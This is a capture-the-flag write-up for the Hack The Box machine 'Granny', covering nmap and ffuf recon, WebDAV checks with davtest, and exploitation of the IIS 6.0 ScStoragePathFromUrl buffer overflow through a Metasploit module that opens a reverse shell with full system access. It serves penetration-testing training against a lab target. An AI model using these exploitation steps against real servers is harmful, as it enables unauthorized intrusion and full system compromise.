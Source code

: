 # Granny [HTB](https://app.hackthebox.com/machines/Granny)
![granny-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/granny-01.png)

## Recon

After adding the target to our `/etc/hosts` file, we can start scanning it with:

```bash
nmap -sC -sV -A -p- granny.htb -oN nmap.results
```

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/nmap-res-02.png)

We have the following:

+ An IIS v6.0 server running on port 80.

It appears that the server is running an extremly outdated IIS server, as Microsoft released IIS v6.0 with
the 2003 Windows Server on May 28, 2003, which reached End-of-Life on Jul 14, 2015. [source](https://learn.microsoft.com/en-us/lifecycle/products/internet-information-services-iis) 

I'm thinking public exploits. 


### IIS Port 80

With a quick Goolge search, we can find a public exploit for IIS V6.0 on [Exploit-DB](https://www.exploit-db.com/exploits/41738): 

![payload-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/payload-03.png)

This is a python 2 script, exploiting a buffer overflow vulnerability that lays in the `ScStoragePathFromUrl` function of the `WebDAV` Microsoft standard. 

`WebDAV` is an Internet-based open standard that enables editing Web sites over HTTP and HTTPS connections, which also supports file uploads to the server. This is not enabled by default, when you install the IIS server role, you need to check a box to enable `WebDAV`, [source](https://learn.microsoft.com/en-us/iis/configuration/system.webserver/webdav/)

The `WebDAV` interface could be on the server root directory, or it could be on a dedicated directory,  It depends on the config file. However, a common location is `/webdav` lets give it a shot:

![find-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/find-04.png)

It says the service is unavailable, maybe its disabled? Lets try directory busting to be sure:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/IIS.fuzz.txt -u http://granny.htb/FUZZ
``` 

![ffuf-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/ffuf-05.png)

Lets open this directory:

![vti-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/vti-06.png)

Looks interesting, but were not sure if its WebDAV enabled. We can verify this with:

```bash
davtest -url http://granny.htb/_vti_bin
```

![davtest-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/davtest-07.png)

The file upload failed, that's one exploit vector, But the `WebDAV` connection succeeded, which means we 
can try the buffer-overflow exploit we found earlier for IIS 6.0. 

I've tried the python script from exploit-DB, the issue is with the shellcode, which opens `calc.exe`, 
instead of esteblishing a reverse shell. So i found another exploit on [Github](https://github.com/danigargu/explodingcan/tree/master). This one specifies that the shellcode must be alphanumerically encoded, I tried it, didnt work for me. I tried a combination of different shellcodes and exploits, nothing worked for me. 


So instead i decided to go for the Metasploit implemantation of the exploit. 

```bash
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS granny.htb
set LHOST tun0
set LPORT 443
set TARGETURI /_vti_bin
```

![options-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/options-08.png)

From here we can run `exploit`:

![root-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Granny/img/root-09.png)


Not only do we get a shell, we get full system access. However do note, this is in fact a 2003 Windows 
server, the directory structure is different from modern Windows systems. The user's folders are in `C:\Documents and Stettings`. 

